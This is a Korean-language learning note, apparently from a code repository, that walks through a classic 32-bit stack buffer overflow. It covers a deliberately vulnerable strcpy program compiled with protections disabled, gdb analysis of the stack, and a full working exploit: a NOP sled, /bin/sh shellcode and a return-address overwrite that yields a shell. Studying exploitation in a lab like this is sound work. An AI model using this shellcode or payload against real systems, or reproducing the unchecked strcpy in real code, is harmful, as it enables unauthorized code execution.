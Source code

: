 # Buffer Overflow란?

**Buffer Overflow**는 C언어나 C++에서 버퍼에 데이터를 입력 받을 때 **입력 값의 크기를 검증하지 않아** 
버퍼가 흘러 넘쳐 다른 변수나 메모리를 덮어 씌우게 되는 버그이다.   
이 취약점을 이용해 **Return address**를 원하는 주소로 덮어 씌워 **IP(Instruction Pointer)를 제어**할 수 있게 된다.   
Buffer Overflow에는 **Stack Overflow**와 **Heap Overflow**가 있다.

## 실습
``` C
# include <stdio.h>
# inslucd <string.h>

int main(int argc, char *argv[])
{
    char buf[256];
    
    strcpy(buf, argv[1]);
    printf("%s\n", buf);
}
```
**strcpy 함수**로 argv[1]을 buf로 복사하고 printf로 출력한다.   
여기서 취약점은 **strcpy** 함수에서 발생한다.   
strcpy 함수는 null byte(문자열의 끝)를 만날 때까지 문자열을 복사하는 함수이다. 즉, 복사하는 버퍼의 크기를 검증하지 않는 취약한 함수이다.   
그래서 buf의 크기인 256byte를 훨씬 넘는 데이터도 buf에 복사할 수 있게 된다.

```
oojin@ubuntu:~/Study/System/BOF$ gcc -m32 -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack -no-pie -o bugfile1 bugfile1.c
yoojin@ubuntu:~/Study/System/BOF$ ls
bugfile1  bugfile1.c
yoojin@ubuntu:~/Study/System/BOF$ ./bugfile1 AAAA
AAAA
```
32bit로 컴파일 시켰다. AAAA를 입력하면 AAAA가 출력되는 그런 형식이다.

```
yoojin@ubuntu:~/Study/System/BOF$ gdb -q bugfile1
Reading symbols from bugfile1...(no debugging symbols found)...done.
(gdb) disas main
Dump of assembler code for function main:
   0x0804843b <+0>:	push   ebp
   0x0804843c <+1>:	mov    ebp,esp
   0x0804843e <+3>:	sub    esp,0x100 //0x100은 10진수로 256
   0x08048444 <+9>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048447 <+12>:	add    eax,0x4
   0x0804844a <+15>:	mov    eax,DWORD PTR [eax]
   0x0804844c <+17>:	push   eax
   0x0804844d <+18>:	lea    eax,[ebp-0x100]
   0x08048453 <+24>:	push   eax
   0x08048454 <+25>:	call   0x8048300 <strcpy@plt>
   0x08048459 <+30>:	add    esp,0x8
   0x0804845c <+33>:	lea    eax,[ebp-0x100]
   0x08048462 <+39>:	push   eax
   0x08048463 <+40>:	call   0x8048310 <puts@plt>
   0x08048468 <+45>:	add    esp,0x4
   0x0804846b <+48>:	mov    eax,0x0
   0x08048470 <+53>:	leave  
   0x08048471 <+54>:	ret    
End of assembler dump.
```

gdb로 bugfile1을 분석해 보았다. main함수를 disassemble하면 위와 같다.
main+3에서 stack을 0x100만큼 확장하였다.(변수 할당)   

RET(4)   
SFP(4)   
buf(256)   

buf가 256byte, SFP가 4byte 그리고 RET(Return address)이니 260 byte를 넘게 입력하면 RET가 덮일 것이다.
./bugfile1 $(python -c 'print("A" * 264)')를 입력하였을 때, Return address가 덮여서 segmantation fautl가 났다.
이때 EIP는 0x41414141로 덮인 상태이다.
이제 쉘 코드를 메모리 어딘가에 넣어서 공격을 하면 된다.
bugfile1은 argv[1]을 buf로 복사하니, agrv[1]에 넣고 Return address를 buf의 주소로 덮어씌우면 된다.
buf의 주소를 찾아보겠다.  
main+33 지점이 strcpy 함수가 끝나는 시점이니 이곳에 break를 걸고 디버깅 해 보았다.

```
(gdb) b* main+33
Breakpoint 1 at 0x804845c
(gdb) r $(python -c 'print("A"*264)')
Starting program: /home/yoojin/Study/System/BOF/bugfile1 $(python -c 'print("A"*264)')

Breakpoint 1, 0x0804845c in main ()
(gdb) x/70wx $esp
0xffffce38:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffce48:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffce58:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffce68:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffce78:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffce88:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffce98:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcea8:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffceb8:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcec8:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffced8:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcee8:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcef8:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf08:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf18:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf28:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf38:	0x41414141	0x41414141	0x00000000	0xffffcfd4
0xffffcf48:	0xffffcfe0	0x00000000
```

스택에 argv[1]에 입력한 A 264개가 들어 있다.
buf의 주소는 ** 0xffffce38** 이다.

이제 argv[1]에 쉘코드를 넣고 RET 전까지 채운 후, buf 주소를 넣으면 된다.
하지만 buf의 주소가 정확하지 않을 수도 있기 때문에 **NOP Slide** 또는 ** NOP Sled** 라는 기법을 사용하면 성공 확률을 높일 수 있다.

쉘 코드는 /bin/sh를 실행시키는 25byte 코드를 사용하였다.
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

**NOP(100)+SELLCODE(25)+NOP(131)+SFP(4)+RET(4)**
이렇게 하면 된다.

```
yoojin@ubuntu:~/Study/System/BOF$ ./bugfile1 $(python -c 'print("\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"+"\x90"*135+"\x38\xce\xff\xff")')
����������������������������������������������������������������������������������������������������1�Ph//shh/bin��P��S���
                                          ���������������������������������������������������������������������������������������������������������������������������������������8���
Segmentation fault (core dumped)
```

공격이 실패했다. 이유는 gdb에서 분석시에 buf의 주소와 실제 시행 시에 buf의 주소가 차이가 나기 떄문이다.
bugfile1의 소스 코드르 조금 수정하여 실제  buf 주소가 무엇인지 확인 해 보았다.

``` C
# include <stdio.h>
# inslucd <string.h>

int main(int argc, char *argv[])
{
    char buf[256];
    
    strcpy(buf, argv[1]);
    printf("%s\n", buf);
    printf("%p\n", buf);
}
```

printf 함수로 buf의 주소를 출력해보았다.

```
yoojin@ubuntu:~/Study/System/BOF$ ./bugfile1 $(python -c 'print("\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"+"\x90"*135+"\x38\xce\xff\xff")')
����������������������������������������������������������������������������������������������������1�Ph//shh/bin��P��S���
                                          ���������������������������������������������������������������������������������������������������������������������������������������x���
0xffffce78
```

실제 buf의 주소는 **0xffffce78**이었다.

```
yoojin@ubuntu:~/Study/System/BOF$ ./bugfile1 $(python -c 'print("\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"+"\x90"*135+"\x78\xce\xff\xff")')
����������������������������������������������������������������������������������������������������1�Ph//shh/bin��P��S���
                                          ���������������������������������������������������������������������������������������������������������������������������������������x���
0xffffce78
$ id
uid=1000(yoojin) gid=1000(yoojin) groups=1000(yoojin),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

실제 주소인 **0xffffce78**로 다시 exploit을 시도해보았더니 성공하였다.
